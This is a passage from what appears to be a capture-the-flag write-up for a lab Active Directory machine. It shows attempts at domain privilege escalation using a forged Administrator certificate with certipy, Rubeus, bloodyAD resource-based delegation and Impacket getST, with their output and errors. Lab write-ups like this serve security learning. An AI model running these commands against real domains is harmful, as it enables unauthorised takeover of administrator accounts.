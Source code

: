 Attempting authentication with the Administrator's certificate results in a DC error: `KDC has no support for padata type`. This suggests that the [KDC lacks configuration for Kerberos authentication with certificates](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d#KDC_ERR_PADATA_TYPE_NOSUPP) or does not have the required Enhanced Key Usages (EKUs).

```cmd
❯ certipy auth -pfx administrator_authority.pfx
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@authority.htb'
    [1] DNS Host Name: 'authority.authority.htb'
> 0
[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

Attempting to obtain the Administrator's TGT with Rubeus results in a similar error.

```cmd
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> .\Rubeus.exe asktgt /user:Administrator /certificate:administrator_authority.pfx /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Abraxas$
[*] Building AS-REQ (w/ PKINIT preauth) for: 'authority.htb\Administrator'
[*] Using domain controller: fe80::8856:b0bf:b6f3:1fad%8:88

[X] KRB-ERROR (6) : KDC_ERR_C_PRINCIPAL_UNKNOWN

*Evil-WinRM* PS C:\Users\svc_ldap\Documents>

```

I came across another blog mentioning [CVE-2022-26923](https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html), which relied on RBCD. Despite bloodyAD indicating that `Abraxas$` could impersonate Authority, I wasn't able to get a ticket for impersonating Administrator. I'm not entirely certain about the reason for this, but I suspect it might be a false positive.

```bash
❯ openssl pkcs12 -in administrator_authority.pfx  -out administrator_authority.pem -nodes
Enter Import Password:

❯ bloodyAD -s -u 'Abraxas$' -d authority.htb -c ':administrator_authority.pem' --host 10.10.11.222 add rbcd 'AUTHORITY$' 'ABRAXAS$'
[+] ABRAXAS$ can now impersonate users on AUTHORITY$ via S4U2Proxy

❯ _ rdate -n 10.10.11.222
Mon Aug  7 16:58:57 IST 2023

❯ getST.py -spn ldap/authority.htb -impersonate Administrator -dc-ip 10.10.11.222 'authority.htb/Abraxas$:Abraxas'
Impacket for Exegol - v0.10.1.dev1+20230806.34223.faf17b2 - Copyright 2022 Fortra - forked by ThePorgs
```